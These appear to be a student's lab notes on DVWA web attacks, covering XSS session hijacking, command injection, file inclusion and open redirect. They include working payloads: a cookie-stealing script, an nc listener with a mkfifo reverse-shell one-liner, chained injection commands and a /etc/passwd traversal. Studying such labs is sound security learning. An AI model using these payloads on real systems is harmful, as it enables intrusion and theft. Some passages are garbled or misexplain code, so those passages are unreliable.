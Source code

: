 # PHP

Understanding the HTML Code. We need to understand what exactly the body part is.

```html
<script> alert("Hello");</script>
```

This is called XSS. Whenever this script is being called, all the items will have the entry of the following script you inserted in the inputs. 

PHPSESSID is requiresd for session hijacking, meaning through this you'd be able to hijack the session using the following sessionid, but remember that this is only valid for the PHPSESSID, meaning it works in case of PHP only.

# What needs to be done?

- Go to the website, and run the above script and this script is used to check or learn the 

```
<script> alert(document.cookie); </script>
```

- Now you need to go to the website, but now you have the session id, and now go to the burpsuite and try the same sessionid with the same session id on cookie. Thus, now you can perform the attack, as you are able to login to the system. 

- 10101

- You can go to the DVWA and also look for the XSS.

- You can also do this using the url, meaning you can change the *name* in File Autentication method, writing the same inputs of `script` would do.

```
?name=<script>alert("Hello"<%@F>)>
```

# Command Injection Attack 

Command Injection is the paradigm of exploiting the vulnerability where attacker is able to identify the code loophole, where anyone might use the input methods to execute malicious file and able to hack the whole system and through this the attacker will be able to create **backdoor** for themselves. This can be done in the following way. First identify the code injection point, and then make sure that you've included the file on the server and the you need to execute the file on the server.

Another method is Reverse Shell Direction, where you can execute the following command to create a  session that is listening on the particular port.

```
nc -nlvp 1337
```

After this you need to execute the following command to redirect the shell command to your own server.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /your/shell/path -i 2>&1 | nc <localhost/IPAddress> 1337 > /tmp/f
```

The following code will redirect the shell command. This was about the Low sercurity, what if we want to break the medium security, meaning what about breaking the code on *Medium Level*. So, *To break the code at Medium Level*, view the source code and try breaking the code, where they say trying running the *ping* in the background. 

```
127.0.0.1 & ls -la & pwd & whoami & hostname
```

What `&` does is that it allows you to run the command in the background. Through this you are able to breach the security. The Attacker may use as any unauthorised access of the system, where attacker will user various input methods vulnerability and will be able to find his way into the system.

# File Inclusion Vulnerability

File Inclusion is the method of uploading the file that is corrupted and making use of it for creating the backdoor through the file. Say it could be any shell file or any other file that will execute the corrupted code.

Baiscally there are two kinds one is LFI (Local File Inclusion), meaning if the file was moved locally and another is RFI (Remote File Inclusion), meaning when the file was included remotely over the server. Normally it is where one vulnerability is found where the input is taken by the users without **sanitizing** the filename, popularly an attacker could replace a filename `image.jpg` with some payload.

Normally what they do is that they traverse the directory, which is called **directory traversal payload** that escapes the script directory and traverses the filesystem directory structure, thus it could expose the sensitive file as below:

```
foo.php?file=../../../../../../../../../etc/passwd
```


# Open HTTP Redirection

*What is HTTP Redirection?* It is caused due to the input validation flaw where user input is trusted that leads to external URL to some target site, or it could be malicious. This is basically used as phishing attack that can used to redirect the users to another website. This happens when the code takes the input without validating that the input is carrying a URL that is redirecting the user to another website.

Consider the code below:

```
<?php

if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "") {
    if (preg_match ("/http:\/\/|https:\/\//i", $_GET['redirect'])) {
        http_response_code (500);
        ?>
        <p>Absolute URLs not allowed.</p>
        <?php
        exit;
    } else {
        header ("location: " . $_GET['redirect']);
        exit;
    }
}

http_response_code (500);
?>
<p>Missing redirect target.</p>
<?php
exit;
?>
```

The line `if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "")` checks whether the file input is not having any abosolute path to any website, this one ensures the security of the user, and doesn't fully trust the user input. 

Refer to [Test for Client Side URL Redirection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/04-Testing_for_Client_Side_URL_Redirect) in order you want to learn more about it.

# FTP Redirection?

The FTP Redirection can be enabled using the following steps:

- You need to `allow` for the configuration. 